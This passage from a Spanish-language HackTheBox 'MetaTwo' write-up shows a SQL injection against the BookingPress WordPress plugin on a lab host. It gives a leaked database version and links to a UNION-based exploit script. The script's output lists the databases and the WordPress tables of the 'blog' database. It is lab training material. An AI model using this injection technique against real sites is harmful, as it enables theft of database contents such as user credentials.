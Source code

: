 ```json
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]
```

Detallamos la versión de **MySQL** usada: `10.5.15-MariaDB-0+deb11u1`, así que **TENEMOS UNA INYECCIÓN SQLLLLLL**! Y podemos empezar a jugar para dumpear tooooda la base de datos (e incluso distintas basees de datos, no solo la actual).

Armémonos un script que explote esta vaina...

> [bookingPresSQLi_union.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/metatwo/bookingPresSQLi_union.py)

Veamos que bases de datos existen:

```bash
 python3 bookingPresSQLi_union.py -q
Dumpeando info mediante un SQLi...

Base de datos: information_schema
Base de datos: blog
```

Dos, la interesante es `blog` así que caigamos en sus tablas:

```bash
 python3 bookingPresSQLi_union.py -q blog
Dumpeando info mediante un SQLi...

Tabla: wp_options
Tabla: wp_term_taxonomy
Tabla: wp_bookingpress_servicesmeta
Tabla: wp_commentmeta
Tabla: wp_users
Tabla: wp_bookingpress_customers_meta
Tabla: wp_bookingpress_settings
Tabla: wp_bookingpress_appointment_bookings
Tabla: wp_bookingpress_customize_settings
Tabla: wp_bookingpress_debug_payment_log
Tabla: wp_bookingpress_services
Tabla: wp_termmeta
Tabla: wp_links
Tabla: wp_bookingpress_entries
Tabla: wp_bookingpress_categories
Tabla: wp_bookingpress_customers
Tabla: wp_bookingpress_notifications
Tabla: wp_usermeta
Tabla: wp_terms
Tabla: wp_bookingpress_default_daysoff
Tabla: wp_comments
Tabla: wp_bookingpress_default_workhours
Tabla: wp_postmeta
Tabla: wp_bookingpress_form_fields
Tabla: wp_bookingpress_payment_logs
Tabla: wp_posts
Tabla: wp_term_relationships
```
